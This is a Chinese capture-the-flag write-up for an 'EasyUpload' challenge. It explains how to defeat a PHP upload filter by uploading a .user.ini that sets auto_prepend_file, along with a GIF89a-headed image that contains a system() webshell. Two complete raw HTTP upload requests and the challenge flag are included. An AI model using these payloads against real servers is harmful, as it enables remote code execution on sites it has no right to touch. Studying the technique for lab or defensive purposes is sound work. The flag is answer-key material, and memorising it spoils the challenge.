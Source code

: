 # EasyUpload

## 分析

> 文件上传绕过,本题的主要考点为利用fastcgi的.user.ini特性进行任意命令执行

> 这里需要绕过的点如下:
    检查文件内容是否有php字符串
    检查后缀中是否有htaccess或ph
    检查文件头部信息
    文件MIME类型

> 第一点使用短标签绕过.<?php phpinfo();?>可用<?=phpinfo();?>代替

> 第二点可以通过上传.user.ini以及正常jpg文件来进行getshell

> 第三点绕过方式即在文件头部添加一个图片的文件头,比如GIF89a

> 第四点绕过方法即修改上传时的Content-Type为Content-Type: image/jpg


## .user.ini

> fastcgi运行的php都可以用这个方法来getshell,php.ini是php默认的配置文件,其中包括了很多php的配置,这些配置中,又分为几种:PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER,其中模式为PHP_INI_USER的配置项,可以在ini_set()函数中设置、注册表中设置,或者在.user.ini中设置

> 除了主php.ini之外,PHP还会在每个目录下扫描INI文件,从被执行的 PHP文件所在目录开始一直上升到web根目录($_SERVER['DOCUMENT_ROOT']所指定).如果被执行的PHP文件在web根目录之外,则只扫描该目录.在.user.ini风格的INI文件中只有具有PHP_INI_PERDIR 和PHP_INI_USER模式的INI设置可被识别.

> .user.ini实际上就是一个可以由用户"自定义"的php.ini,能够自定义的设置是模式为"PHP_INI_PERDIR 、PHP_INI_ALL、PHP_INI_USER"的设置.和php.ini不同的是, .user.ini是一个能被动态加载的ini文件.修改.user.ini后,不需要重启服务器中间件,只需要等待user_ini.cache_ttl所设置的时间（默认为300秒）,即可被重新加载.

> php配置项中有个配置项是auto_prepend_file.它的作用是指定一个文件,自动包含在要执行的文件前,类似于在文件前调用了require()函数.而auto_append_file类似,只是在文件后面包含. 使用方法很简单,直接写在.user.ini中：auto_prepend_file=01.gif

> 所以我们要先上传一个.user.ini文件,Content-Type为image/jpg,文件内容开头是GIF89a,剩余内容是auto_prepend_file=a.jpg

> 再上传一个a.jpg文件,Content-Type为image/jpg,文件内容开头是GIF89a,剩余内容是<?=system('cat /flag');?>

> 然后再访问目录下的一个php文件,访问之前会加载.user.ini文件然后去访问a.jpg文件,执行里面的代码获取flag.

> 注意到,上传文件的目录下即upload目录下必须得有php文件才能触发.看到题目html源码,发现提示存在uploads/index.php文件,说明此题正是要通过.user.ini来绕过.

## payload

```
POST /index.php HTTP/1.1
Host: 61.147.171.105:64926
Content-Length: 336
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:64926
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6fLmAwvYAQTAYKuL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:64926/index.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundary6fLmAwvYAQTAYKuL
Content-Disposition: form-data; name="fileUpload"; filename=".user.ini"
Content-Type: image/jpg

GIF89a                  
auto_prepend_file=a.jpg
------WebKitFormBoundary6fLmAwvYAQTAYKuL
Content-Disposition: form-data; name="upload"

提交
------WebKitFormBoundary6fLmAwvYAQTAYKuL--


POST /index.php HTTP/1.1
Host: 61.147.171.105:64926
Content-Length: 318
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://61.147.171.105:64926
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycOwSi07Hr42YMY6O
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://61.147.171.105:64926/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundarycOwSi07Hr42YMY6O
Content-Disposition: form-data; name="fileUpload"; filename="a.jpg"
Content-Type: image/jpg

GIF89a
<?=system('cat /flag');?>

------WebKitFormBoundarycOwSi07Hr42YMY6O
Content-Disposition: form-data; name="upload"

提交
------WebKitFormBoundarycOwSi07Hr42YMY6O--
```

> http://61.147.171.105:64926/uploads/index.php

## flag

> cyberpeace{320fbd1728b7f8c6a99b6e8f969128e1}